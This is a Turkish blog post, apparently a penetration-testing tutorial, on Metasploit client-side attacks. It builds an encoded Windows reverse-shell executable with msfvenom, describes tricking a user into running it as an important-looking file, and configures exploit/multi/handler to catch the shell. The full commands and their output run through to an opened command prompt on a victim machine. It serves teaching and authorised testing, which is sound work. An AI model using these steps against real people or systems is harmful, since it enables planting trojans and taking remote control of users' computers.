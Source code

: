 ```yaml
---
draft: false

title:  'MSF Binary Payloads'
date: '2017-05-20T13:10:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.' 
 
url:  /tr/msf-binary-payloads/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## İstemci Taraflı Saldırılar



İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.



Pentest işlemi gerçekleştirenler, sistemde bulunan kullanıcının, bir şekilde linke tıklamasını veya zararlı yazılım çalıştırmasını sağladığında kendilerine hedef sistemde kapı açmış olurlar. Bu sebeple, istemci taraflı saldırılar, kullanıcıyla etkileşim gerektirmektedir. Bu tür saldırılar, sosyal mühendislik çalışmalarını da gerektirir.



Metasploit Framework, bu tür zararlı kodların oluşturması için bir çok modül sağlamaktadır.



## binary payloads



binary payloads olarak adlandırılan çalıştırılabilir dosyalar, zararsız .exe dosyaları gibi görünse de aslında içinde tehlikeli kodlar bulunduran dosyalardır. Dosyayı alacak kullanıcıya, önemli bir dosya hissi uyandırarak tıklaması sağlanır ve zararlı kod çalışır.



Bu yazıda, Metasploit Framework tarafından sağlanan `msfvenom` komut satırı aracı kullanılacaktır. `msfvenom` kullanarak `.exe`, `perl` veya `c` program çıktıları elde edebilirsiniz. Burada `.exe` formatı kullanılacaktır.



## Windows Reverse Shell Açan Payload Oluşturma



Hedef kullanıcının zararlı programı çalıştırdığında dinleyen IP adresine bağlanması için bir payload oluşturmak için `windows/shell/reverse_tcp` modülünü kullanacağız. Öncelikle bu modülün çalışmak için hangi değişkenlere ihtiyaç duyduğuna bakalım.


```bash
root@kali:~# msfvenom --payload-options -p windows/shell/reverse_tcp
Options for **payload/windows/shell/reverse_tcp:


       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 281
       Rank: Normal

Provided by:
    spoonm 
    sf 
    hdm 
    skape 

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (staged). Connect back to the attacker
```



Bu modül, çıktıda görüldüğü gibi `LHOST` ve `LPORT` değişkenlerinin ayarlanmasına ihtiyaç duymaktadır. Hedef platform olarak x86 mimari ve Windows işletim sistemi seçilmiştir. Oluşturacağımız payload için bir encoder kullanmamız gerekiyor. Bunun için de `x86/shikata_ga_nai` encoder modülünü kullanacağız. Bu şartlar altında aşağıdaki komut, encoder kullanarak `/tmp` klasörünün içinde `1.exe` isimli bir dosya oluşturacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST**=**172.16.104.130 LPORT**=**31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration**=**0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: /tmp/1.exe
```



`1.exe` dosyamızın türünü kontrol edelim. `file` komutuyla yaptığımız kontrolde `1.exe` doyasının MS Windows dosyası olduğu aşağıda görülmektedir.


```bash
root@kali:~# file /tmp/1.exe
/tmp/1.exe: PE32 executable (GUI) Intel 80386, for **MS Windows
```



## Dinleme Ayarları



Elimizde istemcinin tıklayıp çalıştıracağı `1.exe` dosyası artık hazır durumda. Şimdi, tıklama işlemi gerçekleştiğinde dinleyecek bir modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü ve içinde `payload windows/shell/reverse_tcp` dinleyici payload u kullanacağız.



Öncelikle `exploit/multi/handler` modülünü yükleyip seçeneklere bakalım.


```bash
msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description 
   ----  ---------------  --------  ----------- 


Exploit target:

   Id  Name            
   --  ----            
   0   Wildcard Target
```



Gördüğünüz gibi exploit modülünde herhangi bir zorunlu değişken bulunmuyor. Şimdi payload ayarlaması yapalım.


```bash
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST                      yes       The local address
   LPORT     4444             yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target 
```



Bu çıktıda görülmektedir ki Payload için `LHOST` ve `LPORT` değerlerinin girilmesi gerekmekte.



`LHOST`: Local Host yani yerelde dinleyecek IP adresini,



`LPORT`: Local Port, yani dinleyecek Port numarasını ifade eder.



Bu değerlerin, `msfvenom` komutuyla oluşturduğumuz `1.exe` dosyası için girdiğimiz değerler ile aynı olmasına dikkat edin. `1.exe` dosyası içinde hangi değerler gömülü ise zararlı yazılım bu bilgilere göre haberleşme sağlamak isteyecektir.


```bash
msf exploit(handler) > set LHOST 172.16.104.130
LHOST => 172.16.104.130
msf exploit(handler) > set LPORT 31337
LPORT => 31337
msf exploit(handler) >
```



Tüm ayarlamaları yaptıktan sonra `exploit` komutuyla modül çalıştırılır ve dinlemeye başlanır. Aşağıda, dinleme sonucunda gerçekleşen bir istemci tıklaması sonucu açılan komut satırı görülmektedir.


```bash
msf exploit(handler) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage (474 bytes)
> Command shell session 2 opened (172.16.104.130:31337 -> 172.16.104.128:1150)

Microsoft Windows XP **[**Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Victim\My Documents>
```
